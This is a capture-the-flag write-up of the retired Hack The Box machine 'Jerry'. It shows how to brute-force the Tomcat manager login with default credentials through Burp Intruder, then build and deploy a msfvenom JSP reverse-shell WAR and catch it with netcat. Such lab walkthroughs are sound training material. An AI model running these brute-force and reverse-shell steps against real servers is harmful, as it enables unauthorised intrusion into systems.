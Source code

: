 ```yaml
---
layout: post
title: "HTB: Jerry"
---
```


This is a retired Windows box in the Easy category.<!--more-->
As always, let's begin with the customary nmap scan with 
```bash
sudo nmap -sV -O -F --version-light 10.10.10.95
```
I opted for the light version this time just to see how it works.
<div style="text-align:center"><img src="/assets/Jerry/nmap.webp" alt="Nmap Scan"/></div><br/>

Ah port 8080, the classic port for any web server. It's a Tomcat server running Java Servlet Pages(`.jsp`) which are pretty much antiquated in this day and age but anyway, that's a topic for another day. Let's visit that port and see what we get. We're greeted with a good ol' Tomcat server page with a few different options.

<div style="text-align:center"><img src="/assets/Jerry/default-tomcat.webp" alt="Tomcat server page"/></div><br/>

The manager app looks exciting (it's an app that manages all the aspects of a Tomcat server like deployments, sessions, users and other monitoring). Let's try that but oh dear, seems it's authenticated (as any manager app should rightly be). If you enter any credentials and click `OK` then you'll be greeted with a standard [401 Unauthorized](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/401) page. Alright, so in most HTB's as i've seen till now, in my very inexperienced opinion - passwords and credentials are either cleverly stored within some kind of configuration files or can be bruteforced with wordlists available freely. On doing a cursory google search for Tomcat manager app wordlists, I found this [Apache Tomcat Wordlist](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown). Let's copy this list into a file called `credentials.txt` and we can then use them in a bit.

<div style="text-align:center"><img src="/assets/Jerry/pass-list.webp" alt="Password list"/></div><br/>

Let's intercept this authentication request that is being sent to the Tomcat server so that we can see which form of authentication is being used. Fire up Burpsuite and head on over to the intercepted request which should look something like this (with some dummy credentials):

<div style="text-align:center"><img src="/assets/Jerry/intercept.webp" alt="Burp Intercept"/></div><br/>

Right off the bat you should notice that the encryption/encoding being used is `Base64`, which is super easy to decode as well. There are 2 main facts which should tell you this: 
1. The authorization header `Basic <your encoded string here>`. More on that [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Authorization#basic).
2. The actual encoding string which ends with two `==`'s. This is a classic sign of a Base64 encoding in **MOST** cases - read [this SO answer](https://stackoverflow.com/a/36571117/11583240) for an understanding as to why.

Right click on the the request and send it to the repeater and intruder. Select the entire encoded string and `Send to decoder`. Next, navigate to the decoder window and select `Decode as plaintext` and you should see the credentials you had sent in your request.

<div style="text-align:center"><img src="/assets/Jerry/decoder.webp" alt="Burp Decoder Result"/></div><br/>

So now we know the encoding being used. Therefore when we bruteforce the credentials in the sniper attack we need to have them encoded in base64. Steps to acheive our goal:
1. Format the `credentials.txt` to match the format being used in the actual request `username:password`.
2. Encode them as base64
3. Use the list in our sniper attack
4. Profit!

### Formatting credentials.txt

The editor I'm using to view and manipulate the file is `gedit` so I will use the native `Find and Replace` feature where in the `Find` section I'll put a `   ` (which is 3 spaces because I want to replace all the spaces with a colon) and in the `Replace with` section I'll add a `:`. 

<div style="text-align:center"><img src="/assets/Jerry/find-and-replace.webp" alt="Gedit find and replace window"/></div><br/>

Hit `Replace All` and your `credentials.txt` should now look like this:

<div style="text-align:center"><img src="/assets/Jerry/edited-password-list.webp" alt="Edited credentials.txt"/></div><br/>

### Encoding as base64

For this very simple operation, it wil be beneficial to use bash to acheive the encoding. It can be done in a single line like this:
```bash
for cred in $(cat credentials.txt);do echo $cred | base64 >> creds.txt;done
```
Notice you won't see any output because whatever you're printing to the console is being piped(with `>>`) into a file names `creds.txt`. I'll leave it upto you to figure out how you can output the lines to standard console ;) Now your `creds.txt` should like like:

<div style="text-align:center"><img src="/assets/Jerry/edited-password-list.webp" alt="Enocoded credentials.txt"/></div><br/>

### Craft and execute the sniper attack

Navigate to the intruder window where you will see your request waiting. 
1. Choose the `Attack type` as `Sniper`.
2. Select the encoded string in the autorization header like below and click on `Add` on the right.

    <div style="text-align:center"><img src="/assets/Jerry/sniper.webp" alt="Sniper configuration.txt"/></div><br/>

3. Go to `Payloads` and add the contents of `creds.txt` that was obtained in the previous section. Alternatively, you could also ask Burp to just read the input from your file. 
4. This one is important - remember to **uncheck** the `Payload Encoding` box. The RFC specification only allows us to use only certain ASCII characters and special characters within our URls, but what if we want something like a space or `==` in our headers/path params? We'd want either the server to decode these at their end or not encode them at all while sending them. From the request we can see that we're not encoding them (if they were encoded they'd be going as `%3D%3D` instead of `==`) so that means we need to ensure the same is happening. You can read more about [URL encoding here](https://www.urlencoder.io/learn/).

5. You can now safely execute the attack. the results would look like this:

<div style="text-align:center"><img src="/assets/Jerry/attack-result.webp" alt="Sniper attack result"/></div><br/>

Clearly, the `200 OK` result is what we need - so you can send that request to the decoder by selecting the string from it and decode it. It should show you this result:

<div style="text-align:center"><img src="/assets/Jerry/decoder-result.webp" alt="Decoder result"/></div><br/>

Brilliant, this was sneaky, maybe we should just have tried the password we saw on the 401 page we saw in the beginning!

Now you can access the manager app by entering those credentials. You will be greeted with a page that looks similar to this:

<div style="text-align:center"><img src="/assets/Jerry/manager-home.webp" alt="Manager homepage"/></div><br/>

Another google search should tell us that this particular version of Tomcat is susceptible to a reverse malicious shell upload. Fire up `msfvenom` and let's generate a WAR (web archive) file with this:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP address> LPORT=<Port you want to open a reverse shell on> -f war > shell.war
```

This command generates a war which we will now upload onto the Tomcat server. Browse to your war file and upload it as shown below. By default, this will generate a new route with the name of your uploaded war , so if your file was `shell.war`, you'll have a new route added to your manager app with the value of `/shell`.

<div style="text-align:center"><img src="/assets/Jerry/select-and-deploy.webp" alt="Deploy the war"/></div><br/>

You can reload the manager app to see your new changes if not immediately visible.

<div style="text-align:center"><img src="/assets/Jerry/shell-path.webp" alt="Shell path"/></div><br/>

Before we go in for the final kill, be sure to open a port to listen on (the same one which you used while generating the `.war` file) with 
```bash
nc -lnvp <Your port here>
```

Now all you need to do is navigate to `/shell` and you should see a shell spawn on your netcat console.

<div style="text-align:center"><img src="/assets/Jerry/root.webp" alt="Gained root"/></div><br/>

Navigate to the desktop for the flags. This box is a little unique in the sense that it has both the flags in the same file - the same can be gleaned from the name ;)

<div style="text-align:center"><img src="/assets/Jerry/flag-location.webp" alt="Flags"/></div><br/>

And there you have it folks, another day and another box rooted!